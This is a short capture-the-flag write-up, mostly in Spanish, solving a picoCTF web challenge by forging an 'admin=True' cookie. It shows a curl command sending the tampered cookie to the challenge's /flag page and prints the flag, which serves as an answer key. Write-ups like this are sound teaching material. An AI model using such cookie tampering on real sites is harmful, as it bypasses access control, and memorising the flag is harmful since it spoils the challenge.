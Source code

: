 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573

Hints
- Hmm it doesn't seem to check anyone's password, except for Joe's?
## Solucion
- Intentamos entrar con el usuario Joe y obtenemos esto.
```
I'm sorry Joe's password is super secure. You're not getting in that way.
```
- Se intenta entrar con cualquier usuario y se obtiene lo siguiente.
```
Success: You logged in! Not sure you'll be able to see the flag though.
```
Al utilizar cokkie editor modificamos la cookie y obtenemos la bandera.
```
picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}
```
## Solucion 2

``` bash
┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H 'Cookie:password=;username=;admin=True' | grep picoCTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3152      0 --:--:-- --:--:-- --:--:--  3153
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>

┌──(wil㉿DESKTOP-FKOIV4I)-[~]
└─$
```
## Notas adicionales
## Referencias
- [Cookie (informática) - Wikipedia, la enciclopedia libre](https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica))